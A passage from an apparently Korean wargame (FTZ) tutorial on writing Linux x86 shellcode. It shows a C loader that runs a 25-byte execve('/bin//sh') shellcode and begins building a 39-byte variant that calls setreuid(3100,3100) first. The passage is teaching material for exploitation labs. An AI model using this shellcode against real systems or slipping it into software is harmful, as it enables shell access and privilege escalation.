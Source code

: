 ``` c
// runsh.c
char sh[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80";
void (*func)();
int main(void)
{
        func = (void*)sh;
        func();
        return 0;
}
```

<img data-action="zoom" src='{{ "assets/ftz/shellcode/13.png" | relative_url }}' alt='relative'>  

위 사진과 같이 쉘코드가 정상적으로 실행하는 것을 확인할 수 있습니다.  

<hr> 

<p><a id="setreuid"></a></p>
# setreuid 함수 호출이 포함된 39 byte 쉘코드  

## 1) Linux 쉘을 실행하는 C언어 프로그램 작성  

``` c
// shcode.c
#include <unistd.h>
int main(void) {
        char *sh[2];
        sh[0] = "/bin/sh";
        sh[1] = NULL;

        setreuid(3100,3100);
        execve(sh[0], sh, NULL);
        return 0;
}
```

<img data-action="zoom" src='{{ "assets/ftz/shellcode/14.png" | relative_url }}' alt='relative'>  

``` bash
gcc -static -o shcode shcode.c
```

<img data-action="zoom" src='{{ "assets/ftz/shellcode/15.png" | relative_url }}' alt='relative'>  

main 함수에서 setreuid 함수를 호출하기 위해 스택에 0xc1c(=3100)을 2번 push 합니다.  

<img data-action="zoom" src='{{ "assets/ftz/shellcode/16.png" | relative_url }}' alt='relative'>  

setreuid 함수 내부를 확인해보니 두 매개변수는 ebx, ecx 레지스터에 저장됩니다.  

그럼 eax에는 왜 0x46(=70)이 저장될까요?  
바로 setreuid 함수의 호출 번호입니다.  

